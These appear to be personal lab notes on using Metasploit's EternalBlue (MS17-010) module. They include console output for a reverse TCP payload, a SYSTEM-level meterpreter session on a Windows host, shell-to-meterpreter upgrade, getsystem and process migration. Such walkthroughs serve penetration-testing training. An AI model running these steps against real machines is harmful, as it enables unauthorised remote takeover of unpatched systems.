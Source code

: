 # Metasploit

## Notes

use exploit/windows/smb/ms17_010_eternalblue

show options

info exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/shell/reverse_tcp

setg command allows you to set the value so it can be used by default across different modules. You can clear any value set with setg using unsetg

exploit = run


```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.170.11     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows E
                                             mbedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embed
                                             ded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.8.76.111      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

You can use the background command to background the session prompt and go back to the msfconsole prompt.
The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.
To interact with any session, you can use the sessions -i command followed by the desired session number.
show payloads

meterpreter> execute -f cmd.exe -i -H


### Convert to meterpreter

 search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

### Show sessions
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

sessions 

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.8.76.111:4444 -> 10.10.170.11:49182 (10.10.170.11)



sessions -i (1) - to go to the shell
sessions -k (1) - to kill shell

  ### Migrate
 Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. 
'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. 

